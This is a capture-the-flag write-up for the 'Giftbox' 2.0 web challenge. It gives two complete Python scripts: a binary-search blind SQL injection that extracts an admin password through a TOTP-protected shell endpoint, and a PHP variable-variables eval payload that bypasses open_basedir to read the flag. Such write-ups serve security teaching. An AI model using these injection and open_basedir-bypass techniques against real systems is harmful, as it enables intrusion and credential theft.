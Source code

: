 [中文](./readme_zh.md) [English](./readme.md)

[Docker](./docker) [Exp](./exp.py)

# Giftbox WriteUp

Here is 1.0 version writeup:

[impakho/ciscn2019_giftbox](https://github.com/impakho/ciscn2019_giftbox)

This challenge is 2.0 version.

![1](./img/1.png)

The web page shows us a sandbox command line。

![2](./img/2.png)

Find a hint in `main.js`，it provides `otp` (python lib) and `totp's params`, you can write a script based on the hint.

![3](./img/3.png)

Also you can find `totp's key` in `main.js`.

![4](./img/4.png)

`cat usage.md` to see the `command usage`, there is a sqli at `login`, without any `filter`. You can fuzz to find out, the username and password length limit are `100` byte。

Brute password script:

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff
while True:
    mid = int((right - left) / 2 + left)
    if mid == left:
        length = mid
        break
    username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
    password = "b"
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    res = s.get(payload).text
    if 'incorrect' in res:
        left = mid
    else:
        right = mid
print(length)

real_password = ''
for i in range(1, length+1):
    left = 0x20
    right = 0x7e
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            real_password += chr(mid)
            break
        username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (i, mid)
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(real_password)
    if len(real_password) < i:
        print('No.%d char not in range' % i)
        break
```

![5](./img/5.png)

Got admin password: `hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}`

![6](./img/6.png)

There is a hint `sh0w_hiiintttt_23333`, `eval` is being used at `launch`.

Before `launch`, `targeting` is require. But your input is limited. You can fuzz and find out. `code` shoule be in `a-zA-Z0-9`. `position` should be in `a-zA-Z0-9})$({_+-,.`. Length is also limited。

You should use `php variable variables` to build the `payload`.

In order to read the flag, you need to bypass `open_basedir`.

`getflag` script:

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text

login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a','chr')
targeting('b','{$a(46)}')
targeting('c','{$b}{$b}')
targeting('d','{$a(47)}')
targeting('e','js')
targeting('f','open_basedir')
targeting('g','chdir')
targeting('h','ini_set')
targeting('i','file_get_')
targeting('j','{$i}contents')
targeting('k','{$g($e)}')
targeting('l','{$h($f,$c)}')
targeting('m','{$g($c)}')
targeting('n','{$h($f,$d)}')
targeting('o','{$d}flag')
targeting('p','{$j($o)}')
targeting('q','printf')
targeting('r','{$q($p)}')
print(launch())
```

![7](./img/7.png)

Flag：`de1ctf{h3r3_y0uuur_g1fttt_0uT_0f_b0o0o0o0o0xx}`